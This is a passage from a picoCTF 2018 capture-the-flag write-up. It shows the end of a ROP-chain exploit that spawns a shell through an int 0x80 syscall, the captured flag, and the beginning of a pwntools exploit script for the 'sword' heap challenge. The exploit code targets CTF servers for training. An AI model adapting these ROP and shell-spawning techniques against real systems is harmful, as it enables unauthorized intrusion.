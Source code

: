 ```python
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80

sh.sendline(p)

sh.interactive()
```

flag: `picoCTF{rOp_yOuR_wAY_tO_AnTHinG_11555ee1}`

# sword

## Problem

Can you spawn a [shell](/blog/picoctf-2018-writeup/Binary Exploitation/sword/sword) and get the flag? Connect with `nc 2018shell2.picoctf.com 32987`. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/sword/sword.c). [libc.so.6](/blog/picoctf-2018-writeup/Binary Exploitation/sword/libc.so.6)

## Solution

Because this problem provides a libc library, our first step is to configure the binary so that it uses that specific library.

We will first download the `ld` binary that goes along with the `libc` library by connecting to the shell server:

```bash
❯ scp alanc@2018shell2.picoctf.com:/lib64/ld-linux-x86-64.so.2 .
```

Then we can use [this](https://github.com/Ayrx/reutils/blob/master/change_glibc) handy tool to modify our binary:

```
./change_glibc ./sword ./libc.so.6 ./ld-linux-x86-64.so.2 ./test
```

Now, we have a new binary that uses the libc library provided, and we are ready to go.

First for our easy scripting later on, I will first define a few helper methods that deal with the different interactions:

```python
from pwn import *

context.log_level = 'debug'

sh = remote('2018shell2.picoctf.com', 32987)
# sh = process('./test')

def forgeSword():
  sh.sendlineafter('Quit.\n', '1')

def hardenSword(i, s):
  sh.sendlineafter('Quit.\n', '5')
  sh.sendlineafter('?\n', str(i))
  sh.sendlineafter('?\n', '32')
```